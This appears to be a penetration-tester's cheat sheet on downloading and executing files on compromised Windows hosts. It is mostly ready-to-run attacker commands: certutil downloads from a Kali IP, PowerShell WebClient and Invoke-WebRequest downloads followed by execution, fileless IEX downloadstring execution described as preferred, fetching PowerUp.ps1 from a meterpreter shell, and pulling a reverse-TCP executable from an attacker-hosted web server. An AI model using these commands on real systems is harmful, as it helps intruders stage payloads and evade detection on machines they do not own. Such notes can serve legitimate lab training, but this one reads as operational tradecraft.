

Download and execute file
Command Line
• certutil
certutil -urlcache -f http://<kali ip>/file.exe file.exe
• robocopy
robocopy will create subdirectories that don’t exist and copy all the files/sub-directories
robocopy \\192.168.70.45\Lab12\SSF-Win32 C:\Lab12\SSF-Win32 /e
Powershell
Get-Host

Powershell 1 → Server 2008
Powershell 2 → 7/Server 2008 R2
Powershell 3 → 8/Server 2012
Powershell 4 → 8.1/Server 2012 R2
Powershell 5 → 10
From Command line(cmd) start with “powershell -c ”
There are two primary ways we can download and execute code using PowerShell:
• download to disk
◇ Powershell 2/3/4/5
▪ Net.WebClient DownloadFile method
PS> (New-Object System.Net.WebClient).downloadfile("https://raw.githubusercontent.com/DenFox93/prova1/main/example.exe","$env:userprofile\desktop\file.exe")
PS> & '$env:userprofile\desktop\fileprova.exe' #execute the file
▪ BITSAdmin.exe
▪ Certutil.exe w/ -urlcache argument
◇ Powershell 3/4/5

PS> Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/DenFox93/prova1/main/example.exe' -Outfile '$env:userprofile\desktop\fileprova.exe'
PS> & '$env:userprofile\desktop\fileprova.exe' #execute the file
• download and run within the PowerShell process memory, and never touches the disk (Preferred Method)
◇ Powershell 2/3/4/5
In “example.txt” there is the command “ls” because of that, the machine where we execute the command will list files and directories in the current folder
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/DenFox93/prova1/main/example.txt');

◇ Powershell 3/4/5
In “example.txt” there is the command “ls” because of that, the machine where we execute the command will list files and directories in the current folder
PS> (Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/DenFox93/prova1/main/example.txt').Content | Invoke-Expression

Download from the web
meterpreter > shell
C:\Users\danie\Desktop> powershell -Command (New-Object System.Net.WebClient).downloadfile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1','C:\Users\danie\Desktop\new\powerup1.ps1')
Download file from our local server
1. create local web server on linux
◇ with python2
root@kali:/# cd /home/kali/Desktop/ #positioning in the directory to serve
root@kali:/# python -m SimpleHTTPServer 80 #create we server
◇ with python3
root@kali:/# python3 -m http.server 80 -d /home/kali/Desktop/
2. Download file on Windows
meterpreter > shell
C:\Users\danie\Desktop> powershell -Command (New-Object System.Net.WebClient).downloadfile('http://172.16.5.50:8000/rTCP.exe','$env:userprofile\desktop\rTCP.exe')
Upload from via meterpreter
meterpreter> upload "/home/kali/Desktop/file.txt" "C:\Users\danie\Desktop\new\file.txt"